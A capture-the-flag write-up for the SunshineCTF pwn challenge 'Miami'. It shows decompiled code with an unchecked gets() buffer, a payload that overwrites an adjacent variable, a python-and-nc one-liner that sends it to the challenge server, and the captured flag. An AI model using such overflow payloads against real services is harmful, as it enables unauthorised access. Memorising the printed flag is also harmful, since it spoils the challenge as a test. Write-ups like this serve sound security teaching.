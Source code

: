 Miami
auther:
Oreomeister
Description:
Dexter is the prime suspect of being the Bay Harbor Butcher, we break into his login terminal and get the proof we need!


nc chal.sunshinectf.games 25601

---

# Miami — Writeup

**Category:** pwn / binary exploitation

**Challenge summary**

Dexter is suspected to be the Bay Harbor Butcher. The binary `miami` asks for "Dexter's password"; with a wrong password it prints `Invalid credentials!`, but if we manage to control an internal variable the program prints `Access granted...` and reveals the proof/flag. The binary is a 64-bit PIE ELF and contains a vulnerable `vuln()` function using `gets()`.

---

## Reconnaissance

Run some basic commands to learn about the target:

```
file miami
# ELF 64-bit LSB PIE executable, x86-64, dynamically linked

strings ./miami
# shows functions: gets, puts, fopen, fread, read_flag, and a reference to flag.txt
```

The presence of `gets` in the strings strongly suggests a classic stack-based buffer overflow vulnerability.

---

## Static analysis


using ghidra:

void vuln(void)

{
  char local_58 [76];
  int local_c;
  
  local_c = -0x21524111;
  local_58[0] = '\0';
  local_58[1] = '\0';
  local_58[2] = '\0';
  local_58[3] = '\0';
  local_58[4] = '\0';
  local_58[5] = '\0';
  local_58[6] = '\0';
  local_58[7] = '\0';
  local_58[8] = '\0';
  local_58[9] = '\0';
  local_58[10] = '\0';
  local_58[0xb] = '\0';
  local_58[0xc] = '\0';
  local_58[0xd] = '\0';
  local_58[0xe] = '\0';
  local_58[0xf] = '\0';
  local_58[0x10] = '\0';
  local_58[0x11] = '\0';
  local_58[0x12] = '\0';
  local_58[0x13] = '\0';
  local_58[0x14] = '\0';
  local_58[0x15] = '\0';
  local_58[0x16] = '\0';
  local_58[0x17] = '\0';
  local_58[0x18] = '\0';
  local_58[0x19] = '\0';
  local_58[0x1a] = '\0';
  local_58[0x1b] = '\0';
  local_58[0x1c] = '\0';
  local_58[0x1d] = '\0';
  local_58[0x1e] = '\0';
  local_58[0x1f] = '\0';
  local_58[0x20] = '\0';
  local_58[0x21] = '\0';
  local_58[0x22] = '\0';
  local_58[0x23] = '\0';
  local_58[0x24] = '\0';
  local_58[0x25] = '\0';
  local_58[0x26] = '\0';
  local_58[0x27] = '\0';
  local_58[0x28] = '\0';
  local_58[0x29] = '\0';
  local_58[0x2a] = '\0';
  local_58[0x2b] = '\0';
  local_58[0x2c] = '\0';
  local_58[0x2d] = '\0';
  local_58[0x2e] = '\0';
  local_58[0x2f] = '\0';
  local_58[0x30] = '\0';
  local_58[0x31] = '\0';
  local_58[0x32] = '\0';
  local_58[0x33] = '\0';
  local_58[0x34] = '\0';
  local_58[0x35] = '\0';
  local_58[0x36] = '\0';
  local_58[0x37] = '\0';
  local_58[0x38] = '\0';
  local_58[0x39] = '\0';
  local_58[0x3a] = '\0';
  local_58[0x3b] = '\0';
  local_58[0x3c] = '\0';
  local_58[0x3d] = '\0';
  local_58[0x3e] = '\0';
  local_58[0x3f] = '\0';
  local_58[0x40] = '\0';
  local_58[0x41] = '\0';
  local_58[0x42] = '\0';
  local_58[0x43] = '\0';
  printf("Enter Dexter\'s password: ");
  gets(local_58);
  if (local_c == 0x1337c0de) {
    puts("Access granted...");
    read_flag();
  }
  else {
    puts("Invalid credentials!");
  }
  return;
}
 ---


- There's a local buffer `char local_58[76];` (size = 76 bytes).
- There's an `int local_c;` placed after the buffer in the stack frame.
- The program calls `gets(local_58);` to read user input with no length check.
- Later the code checks `if (local_c == 0x1337c0de) { puts("Access granted..."); read_flag(); }`

This is a textbook *buffer overflow to overwrite a nearby stack variable* rather than return-address overwrite. The goal is to overwrite `local_c` with `0x1337c0de`.

On x86_64, integers are 4 bytes and the ABI and typical stack layout use little-endian for multi-byte values. Thus `0x1337c0de` in little-endian is the byte sequence: `\xde\xc0\x37\x13`.

---

## Exploitation plan

1. Fill the buffer with exactly 76 bytes (any bytes) to reach the saved area directly after `local_58`.
2. Overwrite the 4-byte `local_c` with the little-endian value `0x1337c0de`.
3. Send a newline to terminate input (since `gets()` reads until newline).
4. The program will then detect `local_c == 0x1337c0de` and print `Access granted...` and (depending on implementation) call `read_flag()` or open `flag.txt`.

**Payload layout** (bytes):

```
[A x 76] + [\xde\xc0\x37\x13] + [\n]
```

---

## One-line exploit (remote with nc)

Use this one-liner to send the payload to the remote service provided in the challenge:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\xde\xc0\x37\x13" + b"\n")' | nc chal.sunshinectf.games 25601
```
sun{DeXtEr_was_!nnocent_Do4kEs_w4s_the_bAy_hRrb0ur_bu7cher_afterall!!}

---

